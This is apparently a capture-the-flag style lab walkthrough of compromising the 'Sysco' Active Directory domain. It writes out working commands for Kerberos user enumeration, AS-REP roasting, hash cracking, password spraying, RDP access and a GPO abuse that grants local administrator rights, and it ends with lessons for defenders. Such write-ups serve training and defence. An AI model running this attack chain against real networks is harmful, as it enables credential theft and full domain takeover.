Sysco
- Platform: HackSmarter Labs
- Difficulty: Medium
- OS: Windows Server 2022
- Key Topics: Active Directory, AS-REP Roasting, Password Spraying, Credential Reuse, GPO Abuse
Overview
Sysco is a Managed Service Provider that has tasked us with performing an external penetration test on their Active Directory domain. The objective is to obtain an initial foothold, move laterally, and escalate privileges while evading Antivirus detection to achieve Domain Administrator privileges.
Enumeration
[Step 1] Nmap Scan
I started with a comprehensive port scan to identify all open services:
$ nmap -p- -T4 -sC -sV -Pn 10.0.30.129 -oN nmap_scan-oN flag saves output in normal format (human-readable). The original used -o which is not a valid nmap flag.
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Apache httpd 2.4.58 ((Win64) OpenSSL/3.1.3 PHP/8.2.12)
|_http-title: Index - Sysco MSP
88/tcp open kerberos-sec Microsoft Windows Kerberos
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: SYSCO.LOCAL)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
9389/tcp open mc-nmf .NET Message FramingKey findings from the scan:
- This is a Windows Server 2022 Domain Controller (
DC01.SYSCO.LOCAL) - Apache web server running on port 80
- Standard AD services (Kerberos, LDAP, SMB)
- RDP is available on port 3389
[Step 2] Web Enumeration
Browsing to http://sysco.local/#team, I found a team page with employee names:
I extracted the following names:
Greg Shields
Sarah Johnson
Jack Dowland
Lainey MooreRunning directory enumeration with feroxbuster:
$ feroxbuster -u http://sysco.local/ -w /usr/share/wordlists/dirb/big.txtThis revealed a Roundcube webmail service:

[Step 3] Username Enumeration
Using the employee names, I generated potential username formats with username-anarchy:
$ ./username-anarchy --input-file names.txt --select-format first,flast,first.last,firstl > users.listfirst.last or flast), so generating multiple formats increases the chance of finding valid accounts.
Then I validated which usernames exist in the domain using Kerbrute:
$ kerbrute userenum -d SYSCO.LOCAL users.list --dc DC01.SYSCO.LOCAL
Valid usernames discovered:
greg.shieldslainey.moorejack.dowland
Initial Access - AS-REP Roasting
[Step 4] AS-REP Roasting Attack
I attempted AS-REP Roasting against the valid users:
$ nxc ldap 10.0.30.129 -u valid_users.txt -p '' --asreproast asreproasting_hashLDAP 10.0.30.129 389 DC01 [*] Windows Server 2022 Build 20348 (name:DC01) (domain:SYSCO.LOCAL)
LDAP 10.0.30.129 389 DC01 $krb5asrep$23$jack.dowland@SYSCO.LOCAL:d64e9c59...User jack.dowland has pre-authentication disabled. I cracked the hash using hashcat:
$ hashcat -m 18200 asreproasting_hash /usr/share/wordlists/rockyou.txt$krb5asrep$23$jack.dowland@SYSCO.LOCAL:...:[REDACTED]I verified the credentials work:

Lateral Movement
[Step 5] BloodHound Collection
I collected Active Directory data for analysis:
$ bloodhound-python -u jack.dowland -p '[REDACTED]' -d SYSCO.LOCAL -ns 10.0.30.129 -c all
BloodHound did not reveal any direct privilege escalation paths for jack.dowland, and the user had no access to interesting file shares.
[Step 6] Credential Reuse - Roundcube
Since Jack is an employee, I tested his credentials against the Roundcube webmail and successfully logged in:

In his mailbox, I found an email sent to lainey.moore with a Cisco router configuration file attached:

[Step 7] Cracking the Cisco Secret
The configuration file contained an enable secret:
enable secret 5 $1$mERr$isugnYiHsjHT.i.tc2GDY.
secret 5 indicates the password is hashed using MD5-crypt. This is more secure than type 7 (which is reversible), but still crackable with sufficient computing power. Type 5 hashes begin with $1$.
I cracked this hash with hashcat using mode 500 (MD5-crypt):
$ hashcat -m 500 router_md5_hash /usr/share/wordlists/rockyou.txt$ hashcat -m 500 router_md5_hash --show$1$mERr$isugnYiHsjHT.i.tc2GDY.:[REDACTED][Step 8] Password Spraying
With a new potential password, I sprayed it against domain users and got a hit on lainey.moore:
$ nxc smb 10.0.30.129 -u valid_users.txt -p '[REDACTED]'
[Step 9] Enumerating Lainey's Access
BloodHound showed that lainey.moore is a member of both Remote Desktop Users and Remote Management Users:

[Step 10] RDP Session and More Credentials
I connected via RDP:
$ xfreerdp /v:10.0.30.129 /u:lainey.moore /p:'[REDACTED]'xfreerdp3, but the standard command is xfreerdp. Also, passwords with special characters should be quoted.
On the desktop, I found a PuTTY shortcut with embedded credentials:

The shortcut revealed:
C:\Users\lainey.moore\Documents\putty.exe -ssh netadmin@10.0.0.1 -pw [REDACTED]I sprayed this password and discovered it works for greg.shields:
$ nxc smb 10.0.30.129 -u valid_users.txt -p '[REDACTED]'
Privilege Escalation - GPO Abuse
[Step 11] Identifying the Attack Path
BloodHound revealed that greg.shields has dangerous privileges over the Default Domain Policy GPO:

[Step 12] Exploiting the GPO
I used pyGPOAbuse to create a scheduled task that adds greg.shields to the local Administrators group:
$ python3 pygpoabuse.py 'SYSCO.LOCAL/greg.shields:[REDACTED]' \
-gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" \
-command 'net localgroup Administrators greg.shields /add'[+] ScheduledTask TASK_48cc8916 created!After waiting for Group Policy to refresh (or forcing it with gpupdate /force), I connected with evil-winrm and confirmed Administrator access:
$ evil-winrm -i 10.0.30.129 -u greg.shields -p '[REDACTED]'
Attack Chain Summary
Web Enumeration (Team Page)
|
v
Username Enumeration (Kerbrute)
|
v
AS-REP Roasting --> jack.dowland
|
v
Credential Reuse --> Roundcube Webmail
|
v
Cisco Config File --> MD5 Hash Crack
|
v
Password Spraying --> lainey.moore
|
v
RDP Access --> PuTTY Shortcut Credentials
|
v
Password Spraying --> greg.shields
|
v
GPO Abuse --> Domain AdministratorDetailed Steps:
- Web Enumeration - Discovered employee names on the company website
- Username Enumeration - Generated and validated usernames via Kerbrute
- AS-REP Roasting - Obtained and cracked credentials for
jack.dowland - Credential Reuse - Used Jack's password to access Roundcube webmail
- Cisco Hash Cracking - Found and cracked a router config file to get a new password
- Password Spraying - Discovered the password works for
lainey.moore - RDP Access - Found hardcoded credentials in a PuTTY shortcut
- Additional Password Spraying - Obtained access to
greg.shields - GPO Abuse - Exploited GPO edit permissions to gain Administrator access
Lessons Learned
For Defenders
- Audit accounts with Kerberos pre-authentication disabled
- Implement password policies that prevent common passwords
- Monitor for password spraying attempts
- Never store credentials in shortcuts or scripts
- Restrict GPO modification rights to dedicated admin accounts
- Use Privileged Access Workstations (PAWs) for administrative tasks
For Pentesters
- Always check webmail and other internal apps for credential reuse
- Configuration files often contain crackable hashes
- Password spraying discovered credentials can reveal reuse across accounts
- BloodHound is essential for mapping privilege escalation paths in AD
Walkthrough by Zerotrace | HackSmarter Labs